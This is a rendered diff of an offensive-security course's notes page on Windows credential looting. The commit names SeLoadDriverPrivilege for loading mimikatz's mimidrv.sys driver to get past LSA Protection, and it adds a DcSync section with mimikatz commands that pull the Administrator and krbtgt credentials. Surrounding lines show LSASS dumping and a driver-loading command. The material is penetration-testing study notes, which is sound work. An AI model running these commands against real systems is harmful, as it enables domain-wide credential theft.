

Before and after one commit to trike33/PEN-300-Code-Snippets, a Markdown page: Windows Credentials/Looting.md, 2 parts joined by grey strips. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/Windows Credentials/Looting.md
+++ b/Windows Credentials/Looting.md
@@ -112,7 +112,7 @@ C:\minidump.exe c:\windows\tasks\lsass.dmp
 When the popularity of cached credential retrieving raised, Microsoft introduced 2 secuirty measures: LSA Protection and Windows Defender Credential Guard. The LSA protection added an additional process
 security layer, the Process Protected Light(PPL), which is placed on top of the highest integrity level. This means that SYSTEM level privileges aren't enough to dump the LSASS.
 
-To solve this problem mimikatz relased the [mimidrv.sys](releases/tag/2.2.0-20220919)(go to releases and mimidrv.sys is located inside the .zip/.7z). To load this driver we must have this ??? additional privilege.
+To solve this problem mimikatz relased the [mimidrv.sys](releases/tag/2.2.0-20220919)(go to releases and mimidrv.sys is located inside the .zip/.7z). To load this driver we must have this SeLoadDriverPrivilege additional privilege.
 
 ```
 C:\Windows\system32> sc create mimidrv binPath= C:\inetpub\wwwroot\upload\mimidrv.sys type= kernel start= demand
@@ -145,5 +145,19 @@ The NTDS.dit, is a database that is usually stored on the Domain Controllers. Th
 
 **DcSync:**
 
+The main advantatge of this techique is that is less noisy than dumping the NTDS
+The domain controller receiving a request for an update does not verify that the request came from a known domain controller, but only that the associated SID has appropriate privileges.
+
+In a nutshell, to be able to perform DcSync we must: be a domain admin or make the DcSync from a computer that has domain replication permissions.
+
+```
+#From a mimikatz shell
+
+1. lsadump::dcsync /user:Administrator
+
+or
+
+2. lsadump::dcsync /domain:prod.corp1.com /user:prod\krbtgt
+```
 
 **Meterpreter:**
````
